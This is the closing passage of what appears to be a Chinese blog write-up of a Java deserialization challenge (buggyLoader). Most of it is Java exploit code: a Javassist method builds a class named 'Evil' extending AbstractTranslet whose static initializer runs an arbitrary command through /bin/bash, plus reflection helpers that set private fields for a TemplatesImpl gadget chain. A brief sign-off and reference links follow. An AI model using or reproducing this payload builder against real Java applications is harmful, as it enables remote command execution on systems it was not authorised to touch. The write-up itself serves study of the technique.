 ```java
            sb.append(sTemp.toUpperCase());
        }
        return sb.toString();
    }

    public static CtClass payload(String string) throws Exception {
        String AbstractTranslet = &#34;com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet&#34;;
        ClassPool classPool = ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass payload = classPool.makeClass(&#34;Evil&#34;);
        payload.setSuperclass(classPool.get(AbstractTranslet));
        payload.makeClassInitializer().setBody(
                &#34;java.lang.Runtime.getRuntime().exec(new String[]{\&#34;/bin/bash\&#34;, \&#34;-c\&#34;,\&#34;&#34; &#43; string &#43; &#34;\&#34;});&#34;);
        return payload;
    }
    
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }
    public static Field getField (final Class&lt;?&gt; clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);
            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }
}
```

### 结语

那么，就写到这里吧，再写，就不礼貌辣

### 参考文章

http://miku233.viewofthai.link/2022/05/29/buggyLoader/

https://su18.org/
